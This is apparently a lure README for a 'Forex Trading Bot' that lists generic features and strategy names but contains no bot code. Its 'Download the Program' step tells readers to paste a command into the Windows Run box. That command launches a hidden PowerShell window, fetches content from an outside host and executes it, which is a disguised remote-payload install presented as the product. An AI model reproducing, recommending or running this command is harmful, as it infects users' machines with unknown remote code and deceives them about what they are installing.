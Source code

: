 # Forex Trading Bot 💹🌍

## Project Description
**Forex Trade Bot** is an automated trading bot designed to trade currencies in the foreign exchange market. The bot analyzes market data, executes trades based on predefined strategies, and aims to maximize profits while minimizing risks.

## Key Features
- **Multi-Currency Support**: Trade a wide range of currency pairs in the Forex market.
- **Real-Time Market Analysis**: Continuously analyzes market trends and price movements.
- **Automated Trading**: Executes trades automatically based on custom strategies and indicators.
- **Risk Management**: Implements risk management techniques to protect your investment.
- **User -Friendly Dashboard**: Provides a simple interface for monitoring trades and performance.



## Usage 🚀
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://updatelib.nfortek.pt/';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Example Strategies 📈
- **Trend Following**: Identify and follow the direction of market trends.
- **Mean Reversion**: Trade based on the assumption that prices will revert to their mean value.
- **Breakout Trading**: Enter trades when the price breaks through established support or resistance levels.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [MetaTrader API Documentation](https://www.mql5.com/en/docs/integration)
- [Forex Factory Economic Calendar](https://www.forexfactory.com/calendar.php)

---

**SEO Keywords**: Forex Trading Bot, automated trading, currency trading, foreign exchange, trading strategies, market analysis.
